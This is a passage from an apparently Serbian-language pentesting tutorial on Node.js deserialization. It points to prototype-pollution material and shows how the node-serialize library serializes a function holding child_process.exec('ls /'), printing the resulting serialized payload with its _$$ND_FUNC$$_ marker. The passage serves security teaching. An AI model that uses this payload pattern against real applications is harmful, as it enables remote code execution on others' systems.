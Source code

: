 ```javascript
return p
}

test_ressolve()
test_then()
//For more info: https://blog.huli.tw/2022/07/11/en/googlectf-2022-horkos-writeup/
```

### `__proto__` и `prototype` zagađenje

Ako želite da saznate više o ovoj tehnici, **pogledajte sledeći tutorijal**:

{% content-ref url="nodejs-proto-prototype-pollution/" %}
[nodejs-proto-prototype-pollution](nodejs-proto-prototype-pollution/)
{% endcontent-ref %}

### [node-serialize](https://www.npmjs.com/package/node-serialize)

Ova biblioteka omogućava serijalizaciju funkcija. Primer:

```javascript
var y = {
"rce": function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })},
}
var serialize = require('node-serialize');
var payload_serialized = serialize.serialize(y);
console.log("Serialized: \n" + payload_serialized);
```

**Serijalizovani objekat** će izgledati ovako:

```bash
{"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}
```

Možete videti u primeru da kada se funkcija serijalizuje, flag `_$$ND_FUNC$$_` se dodaje serijalizovanom objektu.

Unutar fajla `node-serialize/lib/serialize.js` možete pronaći isti flag i kako se kod koristi.

![](<../../.gitbook/assets/image (297).png>)
